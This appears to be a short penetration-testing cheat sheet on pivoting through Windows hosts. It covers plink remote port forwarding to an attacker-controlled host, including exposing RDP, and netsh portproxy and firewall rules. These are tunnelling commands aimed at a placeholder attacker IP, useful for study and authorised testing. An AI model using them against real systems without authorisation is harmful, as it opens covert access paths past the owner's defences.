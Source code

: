 # Port Forwarding with Windows Tools

SSH utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`.
ssh.exe behaves as you'd expect.


## Plink

As we won't always have an openSSH client on windows hosts, it can be good to get an understanding of some alternatives.
PuTTY for the CLI.
It has similar features to openSSH, but without remote dynamic port forwarding.

If you are getting an error about algorithm choice when calling plink, consider getting a newer version from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).


assuming we have `plink.exe` available on the windows host, we can do remote port forwarding with:

```
cmd.exe /c echo y | plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:${EXTERNAL_PORT}:${EXTERNAL_IP} ${ATTACKER_IP} 
```
(note the pipe command which answers `y` to the question about keys).
This can also be used to expose RDP:

```
cmd.exe /c echo y | plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:127.0.0.1:3389 ${ATTACKER_IP} 
```

Now, you can do the following from `${ATTACKER_IP}`:

```
xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:127.0.0.1:${LISTENING_PORT}
```
## Netsh

Native way of port forwarding from windows (requires admin permissions):
```
netsh interface portproxy add v4tov4 listenport=${OWNED_PORT0} listenaddress=${OWNED_IP0} connectport=${OWNED_PORT1} connectaddress=${OWNED_IP1}
```
If you ever need to add firewall rules to allow traffic to flow through a given port on Windows (also requires admin permissions):
```
netsh advfirewall firewall add rule name="port_forward_ssh_${OWNED_PORT0}" protocol=TCP dir=in localip=${OWNED_IP0} localport=${OWNED_PORT0} action=allow
```
